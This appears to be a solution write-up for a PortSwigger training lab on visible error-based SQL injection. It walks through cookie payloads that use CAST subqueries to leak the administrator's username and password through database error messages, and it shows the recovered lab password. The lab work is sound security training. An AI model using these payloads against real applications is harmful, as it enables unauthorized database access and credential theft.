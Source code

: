 [Source](https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based)
## Task
This lab has a SQL injection vulnerability. The application uses tracking cookies for analytics and executes a SQL query containing the value of the sent cookie. No results are returned from the SQL query.

There is another table in the database called `users` containing `username` and `password` columns. To solve this task, we must find a way to leak the password of the `administrator` user and log into his account.
## Solution
Go to the website page
![[Pasted image 20241222190633.png]]
Refresh the page, intercept the request via `Burp Suite` and send it to `Repeater`
![[Pasted image 20241222190742.png]]
Add the `'` sign to `TrackingId` and send the request. We see an error
```ERROR
Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '9P3Sf8MjAMamuhn1''. Expected char
```
![[Pasted image 20241222190848.png]]
It is clear that in this case we enter a string with one quote inside the `WHERE` operator. This makes it easier to create a valid query containing a malicious payload. If you comment out the rest of the query, the extra single quote will not break the syntax.
```Request
TrackingId=9P3Sf8MjAMamuhn1'--
```
![[Pasted image 20241222191305.png]]
There is no more error. Let's create another SQL query
```SQL
' AND CAST((SELECT 1) AS int)--
```
We send it and see a different error
```ERROR
ERROR: argument of AND must be type boolean, not type integer. Position: 63
```
![[Pasted image 20241222191508.png]]
Let's change the query so that this error does not occur
```SQL
' AND 1=CAST((SELECT 1) AS int)--
```
![[Pasted image 20241222191613.png]]
We have verified that this query works. Now let's try to pull `username` from the `users` table
```SQL
' AND 1=CAST((SELECT username FROM users) AS int)--
```
![[Pasted image 20241222191850.png]]
We get another error
```ERROR
Unterminated string literal started at position 95 in SQL SELECT * FROM tracking WHERE id = '9P3Sf8MjAMamuhn1' AND 1=CAST((SELECT username FROM users) AS'. Expected char
```
This happens because we exceeded the character limit in the query. To bypass it, we delete the entire `TrackerId`
![[Pasted image 20241222192110.png]]
A new error
```ERROR
ERROR: more than one row returned by a subquery used as an expression
```
The query turned out to be correct and we guessed that there is a `users` table and a `username` column in it. The error is thrown by the database itself, since it unexpectedly returned more than one row. Let's tweak the query a little:
```SQL
' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```
![[Pasted image 20241222192445.png]]
A new error has appeared. But note that this error shows the administrator's `username`.
``ERROR
ERROR: invalid input syntax for type integer: "administrator"
```
Since we know that `administrator` is the first in the `users` table, we will output his password.
```SQL
' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```
![[Pasted image 20241222192647.png]]
Administrator password:
```Password
qbcneltqjs6bnijkbwgf
```
![[Pasted image 20241222192736.png]]
![[Pasted image 20241222192750.png]]